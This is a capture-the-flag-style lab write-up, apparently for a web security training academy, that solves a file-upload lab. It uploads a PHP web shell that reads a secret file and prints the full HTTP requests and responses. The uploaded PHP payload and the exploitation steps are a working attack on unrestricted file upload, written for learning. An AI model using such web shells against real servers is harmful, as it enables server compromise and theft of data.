




# Remote code execution via web shell upload

## Lab Description :


## Overview :
If we're able to successfully upload a web shell, we effectively have full control over the server.
For example, the following PHP one-liner could be used to run commands on the server: <?php echo file_get_contents('/path/to/target/file'); ?>
Once uploaded , we can pass an arbitrary system command via a query parameter as follows:

``GET /example/exploit.php?command=id HTTP/1.1``

## Solution :
Click on any of the blog posts. We can see that we have an option to upload files.



Similarly login as wiener & we can see that there is an upload functionality here also.



Create a file name file.php with the contents - <?php echo file_get_contents('/home/carlos/file.php'); ?>

Upload the file & intercept the request in burp.
```html
POST /my-account/avatar HTTP/2
Host: 0ae20028048451db80ac6ccb00770069.web-security-academy.net
Cookie: session=XMuD5PzAVGlJwvXHQvNGUesAPnO46yNF
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------104599838211464567631888268358
Content-Length: 527
Origin: https://0ae20028048451db80ac6ccb00770069.web-security-academy.net
Referer: https://0ae20028048451db80ac6ccb00770069.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

-----------------------------104599838211464567631888268358
Content-Disposition: form-data; name="avatar"; filename="file.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/file.php'); ?>

-----------------------------104599838211464567631888268358
Content-Disposition: form-data; name="user"

wiener
-----------------------------104599838211464567631888268358
Content-Disposition: form-data; name="csrf"

zWcS51k2tzIrkultAJbpXr0rIkNKySQ2
-----------------------------104599838211464567631888268358--
```
The response indicates that the file upload of file.php was successful.
```html
HTTP/2 200 OK
Date: Thu, 27 Jul 2023 15:17:11 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 129
```
The file avatars/file.php has been uploaded.
```
<p>
 <a href="/my-account" title="Return to previous page">« Back to My Account</a>
</p>
```
Once uploaded , right click on the image and open in new tab. From the url we can understand that it is loading the file from /files/avatars/file.php

So change the request method to GET with the url files/avatars/file.php.
```html
GET /files/avatars/file.php HTTP/2
Host: 0ae20028048451db80ac6ccb00770069.web-security-academy.net
Cookie: session=XMuD5PzAVGlJwvXHQvNGUesAPnO46yNF
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: https://0ae20028048451db80ac6ccb00770069.web-security-academy.net
Referer: https://0ae20028048451db80ac6ccb00770069.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```
When the file is fetched, we can see the secret file's contents in the response. It means that the file got saved & got processed at the backend.
```html
HTTP/2 200 OK
Date: Thu, 27 Jul 2023 15:28:36 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 32

UbkOi2Ajs7rSvyOqimiy5SLOc7K0zYhq
```
Submit the value to solve the lab.



#### Visit The Next Page For The Next Level :)
